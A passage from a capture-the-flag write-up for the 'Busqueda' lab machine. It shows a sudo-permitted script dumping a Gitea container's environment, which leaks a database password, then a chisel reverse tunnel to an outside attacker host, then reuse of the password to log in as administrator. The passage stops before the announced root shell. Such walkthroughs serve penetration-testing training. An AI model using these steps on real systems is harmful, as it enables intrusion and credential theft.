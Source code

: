 {% code overflow="wrap" %}
```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{.Config}} 960873171e2e
{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}
```
{% endcode %}

With this, we can try to access the Gitea instance at port 3000 via port forwarding.

### Gitea --> Root shell

We can port foward via `chisel`.

```bash
# on Busqueda
./chisel client 10.10.16.41:1080 R:3000:127.0.0.1:3000
# on kali
chisel server -p 1080 --reverse
```

Then we can access http://localhost:3000 to view Gitea:

<figure><img src="../../.gitbook/assets/image (1195).png" alt=""><figcaption></figcaption></figure>

Using the same MySQL password of `yuiu1hoiu4i5ho1uh`, we can login as `administrator`. We can see some repos:

<figure><img src="../../.gitbook/assets/image (1593).png" alt=""><figcaption></figcaption></figure>
